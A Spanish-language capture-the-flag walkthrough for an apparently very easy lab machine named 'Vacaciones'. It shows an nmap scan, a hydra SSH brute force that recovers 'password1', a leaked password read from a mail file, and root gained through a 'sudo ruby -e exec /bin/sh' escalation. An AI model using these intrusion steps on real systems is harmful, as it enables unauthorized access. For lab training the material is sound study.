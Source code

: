 ```yaml
---
description: '🧠Dificultad: Muy fácil | 🔓23/07/2025'
---
```


# Vacaciones

Empezamos con un escaneo de puertos para ver los servicios que está corriendo la máquina:

```bash
nmap -sC -sV $IPTARGET
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
|_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site does not have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

La página web que aloja nos muestra lo siguiente en el código fuente:

```html
<!-- De : Juan Para: Camilo , te he dejado un correo es importante... -->
```

Intentando hacer fuerza bruta con el usuario que indica en el mensaje (`camilo`):

```bash
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://$IPTARGET
```

```bash
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
1 of 1 target successfully completed, 1 valid password found
```

Mirando el mensaje anterior, kisko me ha hecho pensar que puede estar en la carpeta `/var/mail/`.

```bash
ls -la /var/mail/camilo
```

```bash
total 12
drwxr-sr-x 2 root mail 4096 Apr 25  2024 .
drwxrwsr-x 1 root mail 4096 Apr 25  2024 ..
-rw-r--r-- 1 root mail  144 Apr 25  2024 correo.txt
```

```
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

Como el correo lo enviaba Juan, podemos iniciar sesión con Juan con `su juan`. Una vez dentro con este usuario, vemos los permisos que tenemos con `sudo -l`:

```
Matching Defaults entries for juan on 5b47abf18274:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on 5b47abf18274:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Buscamos el binario `/usr/bin/ruby` en [gtfobins](https://gtfobins.github.io/gtfobins) y vemos que hay una vulnerabilidad con `sudo` para este binario:

```bash
sudo ruby -e 'exec "/bin/sh"'
```

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250723013054.png" alt=""><figcaption></figcaption></figure></div>

